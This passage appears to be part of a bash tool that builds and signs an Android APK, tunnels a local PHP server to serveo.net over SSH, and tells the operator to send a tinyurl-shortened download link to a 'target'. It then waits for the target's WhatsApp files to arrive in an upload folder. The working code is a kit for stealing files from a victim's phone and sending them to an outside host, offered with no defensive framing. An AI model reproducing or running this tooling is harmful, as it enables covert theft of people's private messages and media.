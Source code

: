}

configureapp() {

printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Configuring App...\e[0m\n"

createapp
}

checkimg() {

printf "\n"
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Waiting WhatsApp Files,\e[0m\e[1;77m Press Ctrl + C to exit...\e[0m\n"
while [ true ]; do

if [[ -e Log.log ]]; then
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] File Received!\e[0m\e[1;77m Saved: app/uploadedfiles/\e[0m\n"
rm -rf Log.log
fi
done 

}

server() {
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Starting server...\e[0m\n"

if [ ! -d uploadedfiles/ ]; then
mkdir uploadedfiles/
fi

$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:3333 serveo.net -R '$port':localhost:4444 2> /dev/null > sendlink ' &


sleep 7
send_link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)

printf "\n"
printf '\n\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Send the direct link to target:\e[0m\e[1;77m %s/app.apk \n' $send_link
send_ip=$(curl -s http://tinyurl.com/api-create.php?url=$send_link/app.apk | head -n1)
printf '\n\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Or using tinyurl:\e[0m\e[1;77m %s \n' $send_ip
printf "\n"

php -S "localhost:3333" > /dev/null 2>&1 &
php -S "localhost:4444" > /dev/null 2>&1 &
sleep 3
checkimg
}


checkapk() {
if [[ -e app/build/outputs/apk/app-release-unsigned.apk ]]; then

printf "\e[1;77m[\e[0m\e[1;92m+\e[0m\e[1;77m] Build Successful, Signing APK...\e[0m\n"

mv app/build/outputs/apk/app-release-unsigned.apk app.apk
echo "      " | apksigner sign --ks key.keystore  app.apk > /dev/null
